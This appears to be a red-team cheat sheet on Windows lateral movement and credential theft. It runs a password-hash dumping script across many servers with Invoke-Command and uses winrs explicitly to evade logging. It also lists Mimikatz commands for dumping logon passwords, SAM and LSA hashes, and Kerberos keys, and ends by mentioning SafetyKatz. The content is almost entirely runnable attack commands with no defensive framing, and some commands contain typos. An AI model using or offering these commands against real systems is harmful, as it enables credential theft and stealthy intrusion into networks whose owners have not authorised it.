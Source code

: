 **In below, a function call within the script is used**:

~~~
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
~~~


Use below to execute Stateful commands using Invoke-Command:

~~~
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
~~~


We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):

~~~
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
~~~

## Invoke-Mimikatz

Frist command for know peivilege

~~~
privilege::debug
~~~

ensure that the output is "Privilege '20' ok"


Dump the logon passwords

~~~
sekurlsa:logonpasswords
~~~

Local Security Authority Subsystem Service (LSASS)

 dump the content from the sam database
  
~~~
lsadump::sam
~~~


dump the hashes with patch 

~~~
lsadump::lsa /patch
~~~


Dump credentials on  a local machine

~~~
Invoke-Mimikatz -command ' "sekurlsa::ekeys" '
~~~

Using safetyKatz (Minidump of lsass and PELoader to run Mimikatz)
